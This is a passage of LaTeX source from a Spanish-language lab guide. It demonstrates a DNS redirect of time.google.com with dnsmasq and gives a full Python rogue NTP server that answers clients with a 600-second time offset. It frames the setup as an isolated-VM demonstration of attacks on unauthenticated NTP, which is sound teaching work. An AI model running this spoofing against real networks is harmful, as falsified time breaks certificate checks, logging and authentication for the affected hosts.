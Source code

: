 \documentclass[11pt,a4paper]{article}
\newcommand{\ruta}[1]{\path{#1}}
\begin{document}
Crear \ruta{/etc/dnsmasq.d/ntp-lab.conf}:

\begin{lstlisting}[style=terminal]
interface=eth1
bind-interfaces
listen-address=10.77.0.1
address=/time.google.com/10.77.0.1
log-queries
log-facility=/var/log/dnsmasq-ntp-lab.log
\end{lstlisting}

Reiniciar y comprobar:

\begin{lstlisting}[style=terminal]
sudo systemctl restart dnsmasq
# Desde la VM cliente:
getent ahostsv4 time.google.com
\end{lstlisting}

La resolución debe devolver \texttt{10.77.0.1}. Esto demuestra que un atacante que controla DNS puede dirigir un cliente NTP no autenticado hacia una fuente temporal bajo su control.

\subsection{Paso 3: servidor NTP de laboratorio con offset deliberado}

El siguiente servidor mínimo responde sólo para fines de laboratorio y agrega un offset de 600 segundos. Debe ejecutarse en la VM controlada, nunca en una interfaz expuesta a Internet.

\begin{lstlisting}[style=pythonlab]
#!/usr/bin/env python3
import socket
import struct
import time

BIND = "10.77.0.1"
PORT = 123
OFFSET = 600          # +10 minutos
NTP_EPOCH = 2208988800

def ntp_ts(unix_time):
    value = unix_time + NTP_EPOCH
    sec = int(value)
    frac = int((value - sec) * (1 << 32))
    return struct.pack("!II", sec, frac)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind((BIND, PORT))
print(f"NTP LAB escuchando en {BIND}:{PORT}, offset={OFFSET}s")

while True:
    data, addr = sock.recvfrom(1024)
    if len(data) < 48:
        continue

    version = (data[0] >> 3) & 0x07
    version = version if version in (3, 4) else 4

    reply = bytearray(48)
    reply[0] = (0 << 6) | (version << 3) | 4   # LI=0, VN, mode=server
    reply[1] = 2                               # stratum de laboratorio
    reply[2] = 6                               # poll
    reply[3] = 0xEC                            # precision aproximada
    reply[12:16] = b"LAB "                    # reference ID

    # Originate Timestamp = Transmit Timestamp recibido del cliente
    reply[24:32] = data[40:48]

    now = time.time() + OFFSET
    reply[16:24] = ntp_ts(now - 1)             # reference timestamp
    reply[32:40] = ntp_ts(now)                 # receive timestamp
    reply[40:48] = ntp_ts(now)                 # transmit timestamp

    sock.sendto(reply, addr)
\end{lstlisting}
\end{document}
